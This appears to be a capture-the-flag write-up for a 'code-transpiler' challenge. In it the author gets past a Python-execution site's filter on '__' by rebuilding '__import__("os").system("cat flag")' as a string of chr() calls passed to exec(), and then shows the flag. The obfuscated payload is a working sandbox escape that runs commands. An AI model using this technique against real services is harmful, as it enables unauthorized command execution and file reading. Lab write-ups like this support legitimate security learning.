



# code-transpiler
> Bypass the security restriction and get th flag.

## About the Challenge
We were given a website where we can execute a python command like this



And there are also some limitation (For example, we can’t input `__`)



## How to Solve?
In this case, we use the `exec()` function, and then I need to change each character to ASCII code and then use the `chr()` function. The command below is used to read the flag

```
__import__("os").system("cat flag") 
```

And then, the final payload will be like this

```
exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(34)+chr(111)+chr(115)+chr(34)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(34)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(34)+chr(41))
```



```
CTF{4e08cd8cc051a304f94dd905b66af29572e3aa8fa56d93200bfd34727e2a892a}
```